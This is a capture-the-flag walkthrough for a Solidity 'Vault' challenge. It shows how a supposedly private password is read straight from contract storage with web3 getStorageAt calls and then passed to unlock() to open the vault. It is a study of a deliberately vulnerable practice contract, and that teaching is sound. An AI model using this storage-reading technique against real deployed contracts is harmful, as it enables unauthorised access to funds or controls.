 # Description
Unlock the vault to pass the level!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

# Notes

- This challange depends on knowing what are private variables in solidity, how can they be private variables ? isn't the blockchain public and everyone can read it ?
- Private variables are only private for the smart contract scope which means they can't be accessed or modified from other smart contracts. But their values can be read freely outside the blockchain by anyone so they don't hide data in that sense.
- With that, the challenge becomes obvisou, and we can get the password.
- This contract uses 2 storage slots (each slot takes 32bytes), one for the `locked` variable and one for password `password`.
- We can for example read the `locked` variable which is in the storage slot index 0 like so :
```
await web3.eth.getStorageAt(contract.address, 0 , function(error, result){console.log(result)})
```
which returns
```
'0x0000000000000000000000000000000000000000000000000000000000000001'
```
(that's equivalant in bool to true)
- Like so we can read the password like so : 
```
await web3.eth.getStorageAt(contract.address, 1 , function(error, result){console.log(result)})
```
which returns : 
```
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
```
- Now we simply call the `unlock` method with the password :
```
await contract.unlock(0x412076657279207374726f6e67207365637265742070617373776f7264203a29)
```
and like that we have unlocked the vault, and we can check with the `locked` variable which is now false:
```
await web3.eth.getStorageAt(contract.address, 0 , function(error, result){console.log(result)})
```
which returns : `'0x0000000000000000000000000000000000000000000000000000000000000000'`
OR
```
await contract.locked()
```
which returns : `false`